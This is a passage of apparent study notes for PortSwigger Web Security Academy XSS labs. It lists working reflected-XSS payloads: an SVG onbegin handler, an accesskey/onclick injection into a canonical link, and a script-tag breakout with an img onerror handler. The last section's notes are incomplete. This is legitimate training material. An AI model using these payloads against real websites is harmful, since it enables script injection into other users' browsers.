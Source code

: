 ```
<svg><animatetransform onbegin=alert(1)>
```
    
### Reflected XSS in canonical link tag

https://portswigger.net/research/xss-in-hidden-input-fields

```
<link rel="canonical" href='https://0a1a002b03809233c0f126f80007009e.web-security-academy.net/'/>
```

```
https://0a1a002b03809233c0f126f80007009e.web-security-academy.net/?%27 
https://0a1a002b03809233c0f126f80007009e.web-security-academy.net/?'
<link rel="canonical" href="https://0a1a002b03809233c0f126f80007009e.web-security-academy.net/?" '>
```

```
https://0a1a002b03809233c0f126f80007009e.web-security-academy.net/?%27accesskey=%27X%27onclick=%27alert(1)%27%27
https://0a1a002b03809233c0f126f80007009e.web-security-academy.net/?'accesskey='X'onclick='alert(1)''
<link rel="canonical" href="https://0a1a002b03809233c0f126f80007009e.web-security-academy.net/?" accesskey="X" onclick="alert(1)" ''>
```

### Reflected XSS into a JavaScript string with single quote and backslash escaped

Search for something then view page source and analyse javascript. Realise that there is a vulnerable function.  

view-source:https://0a7200e604b84119c13c5e99009f009c.web-security-academy.net/?search=asd
                                                                                                                                    
```
</script><img src=1 onerror=alert(document.domain)>
```

```
<script>
    var searchTerms = 'asd';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

Search for something then view page source and analyse javascript. Realise that there is a vulnerable function.  

view-source:https://0a7200e604b84119c13c5e99009f009c.web-security-academy.net/?search=asd

```
<script>
    var searchTerms = '';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

